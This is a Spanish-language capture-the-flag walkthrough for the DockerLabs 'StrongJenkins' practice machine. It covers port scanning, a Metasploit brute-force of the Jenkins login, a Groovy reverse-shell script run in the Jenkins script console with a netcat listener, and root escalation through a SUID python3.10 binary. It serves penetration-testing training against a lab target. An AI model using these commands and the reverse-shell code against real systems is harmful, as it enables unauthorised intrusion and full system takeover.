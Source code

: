 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# StrongJenkins DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip strongjenkins.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh strongjenkins.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 09:41 EST
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.70 seconds
```

Si entramos en la pagina web por el puerto `8080` veremos un `Jenkins`, vamos a probar las credenciales por defecto pero no tendremos suerte, por lo que vamos a realizar fuerza bruta contra el login con `metasploit` de la siguiente forma:

## jenkins\_login Exploit

```shell
msfconsole -q
```

Ahora accederemos al modulo de la siguiente forma:

```shell
use scanner/http/jenkins_login
```

Ahora tendremos que configurarlo:

```shell
set RHOSTS <IP>
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
exploit
```

Info:

```
[!] No active DB -- Credential data will not be saved!
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:12345 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456789 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:password (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:iloveyou (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:princess (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:1234567 (Incorrect)
[+] 172.17.0.2:8080 - Login Successful: admin:rockyou
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
```

Veremos que hemos encontrado las credenciales, por lo que nos loguearemos con dichas credenciales.

## Escalate user jenkins

```
User: admin
Pass: rockyou
```

Dentro del `jenkins` nos iremos a la pestaña de `Manage Jenkins` y veremos abajo del todo este apartado:

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

Entraremos dentro de el y veremos como un recuadro donde meter un script para ejecutar:

```bash
String host="<IP>";
int port=<PORT>;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Pero antes de ejecutar nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si lo ejecutaremos, por lo que pulsaremos a `run` y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 49766
whoami
jenkins
```

Veremos que somos el usuario `jenkins` por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2405051     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
  2275789     36 -rwsr-xr-x   1 root     root        35200 Apr  9  2024 /usr/bin/umount
  2275773     56 -rwsr-xr-x   1 root     root        55680 Apr  9  2024 /usr/bin/su
  2275722     48 -rwsr-xr-x   1 root     root        47488 Apr  9  2024 /usr/bin/mount
  2404926     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
  2404920     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
  2405062     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
  2404988     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
  2528496   5768 -rwsr-xr-x   1 root     root      5904904 Nov 20  2023 /usr/bin/python3.10
  2519472     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Si vemos la siguiente linea:

```
2528496   5768 -rwsr-xr-x  1 root  root  5904904 Nov 20  2023 /usr/bin/python3.10
```

Vemos que podemos ejecutar `python3.10` bajo los privilegios de `root`, por lo que haremos lo siguiente:

```shell
python3.10 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

Info:

```
bash-5.1# whoami
root
```

Si ejecutamos esto veremos que seremos el usuario `root`, por lo que habremos terminado la maquina.

